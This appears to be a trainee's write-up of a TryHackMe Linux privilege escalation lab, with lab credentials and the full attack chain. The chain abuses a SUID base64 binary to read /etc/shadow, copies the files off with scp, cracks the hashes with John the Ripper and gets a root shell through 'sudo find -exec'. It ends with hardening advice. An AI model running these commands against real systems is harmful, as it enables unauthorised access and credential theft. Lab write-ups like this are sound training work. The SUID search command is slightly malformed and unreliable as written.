







# Linux Privilege Escalation Report
## TryHackMe – Privilege Escalation Lab

## Analyst
Security Analyst Trainee

---

# 1. Objective

The objective of this assessment was to gain initial access to a Linux system and escalate privileges to obtain root-level access.

The lab focuses on building a structured methodology for Linux privilege escalation similar to real-world penetration testing scenarios.

---

# 2. Initial Access

Access to the target system was obtained via SSH using the provided credentials.

Target IP:
10.130.142.77

Credentials:
Username: leonard  
Password: Penny123  

Command used:

ssh leonard@10.130.142.77

A shell was successfully obtained as user **leonard**.

### Evidence

---

# 3. Initial Enumeration

The current user did not have root privileges.

To identify potential privilege escalation vectors, SUID binaries were enumerated using:

find / -type -perm -04000 -ls 2>/dev/null

This revealed multiple SUID binaries, including **/usr/bin/base64**, which is unusual and potentially exploitable.

### Evidence

---

# 4. Exploiting SUID Binary (base64)

The SUID permission on **base64** allowed reading restricted files.

The following commands were used to extract sensitive system files:

base64 /etc/passwd | base64 --decode > passwd.txt  
base64 /etc/shadow | base64 --decode > shadow.txt  

These files were stored locally on the compromised machine.

### Evidence

---

# 5. File Transfer and Hash Cracking

The extracted files were transferred to the attacker's machine using SCP:

scp leonard@10.130.142.77:/home/leonard/passwd.txt .  
scp leonard@10.130.142.77:/home/leonard/shadow.txt .  

The password hashes from `shadow.txt` were then cracked using **John the Ripper**:

john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt  

A valid password was successfully recovered.

### Evidence

---

# 6. Lateral Movement

Using the recovered credentials, access was obtained to another user account.

After logging in, privilege enumeration was performed using:

sudo -l  

The output revealed that the user could execute the **find** command with elevated privileges without requiring a password.

### Evidence

---

# 7. Privilege Escalation

The **find** binary was exploited using a known technique from GTFOBins.

Command used:

sudo find . -exec /bin/sh \; -quit

This successfully spawned a shell with **root privileges**.

Verification:

whoami  
root  

### Evidence

---

# 8. Flag Discovery

With root access obtained, the system was searched for flag files using:

find / -name "flag*" 

The identified files were then read using:

cat /home/missy/Documents/flag1.txt
cat /home/rootflag/flag2.txt

### Evidence

---

# 9. Key Findings

- Misconfigured SUID binary (**base64**) allowed access to sensitive files
- Password hashes were exposed and successfully cracked offline
- Weak credentials enabled lateral movement
- Misconfigured sudo permissions allowed execution of **find** as root without authentication

---

# 10. Privilege Escalation Path Summary

1. SSH access obtained as user `leonard`
2. SUID enumeration revealed vulnerable binary (`base64`)
3. Sensitive files (`/etc/shadow`) extracted
4. Password hashes cracked using John the Ripper
5. Valid user credentials obtained
6. `sudo -l` revealed privilege escalation via `find`
7. GTFOBins technique used to spawn root shell
8. Root access achieved and flags retrieved

---

# 11. Recommendations

- Remove unnecessary SUID permissions from binaries such as `base64`
- Restrict access to sensitive files like `/etc/shadow`
- Enforce strong password policies
- Audit and restrict sudo privileges
- Perform regular privilege escalation audits

---

# 12. Conclusion

The system was successfully compromised and escalated to root through a combination of misconfigured SUID binaries, weak credential management, and improper sudo permissions.

This demonstrates how multiple small misconfigurations can be chained together to achieve full system compromise.
